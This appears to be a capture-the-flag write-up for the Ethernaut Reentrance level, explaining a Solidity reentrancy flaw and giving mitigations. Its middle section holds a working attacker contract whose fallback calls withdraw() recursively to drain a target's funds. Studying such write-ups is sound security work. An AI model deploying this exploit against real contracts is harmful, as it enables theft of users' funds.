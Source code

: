 # 🎯 Vulnerability Report: Reentrance (Ethernaut #10)

## 🔓 Vulnerability  
- **Type**: Reentrancy Attack
- **Location**: `withdraw()` function in Reentrance contract
- **Root Cause**:  
  - State modification after external call
  - No reentrancy guard protection
  - Violation of Checks-Effects-Interactions pattern

## 🕵️‍♂️ How Did I Find It?  
1. **Code Review**:  
   - Identified dangerous pattern of external call before state update
   - Noticed `withdraw()` makes call before updating balance
   - Checked for absence of reentrancy protection modifiers

2. **Testing**:  
   - Created attacker contract with malicious fallback
   - Verified recursive calls are possible
   - Confirmed balance updates happen after transfers

## 💥 Exploit Steps
1. Deploy Attacker contract with target address
2. Deposit small amount (1 ETH) to appear legitimate
3. Call `withdraw()` to initiate attack
4. Fallback function recursively calls `withdraw()` 
5. Repeat until contract funds are drained

```js
// Attack Contract 
contract Attacker {
    Reentrance target;
    uint256 depositAmount = 1 ether;
    
    constructor(address _target) {
        target = Reentrance(_target);
    }
    
    function attack() external payable {
        target.donate{value: depositAmount}(address(this));
        target.withdraw(depositAmount);
    }
    
    receive() external payable {
        if(address(target).balance >= depositAmount) {
            target.withdraw(depositAmount);
        }
    }
}
```
## 🔐 Mitigation
- Use reentrancy guard modifier
- Use Checks-Effects-Interactions pattern
  ```js
  function withdraw(uint256 _amount) public {
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] -= _amount; // Effects first
    (bool success,) = msg.sender.call{value: _amount}(""); // Interaction last
    require(success);
  }
  ```
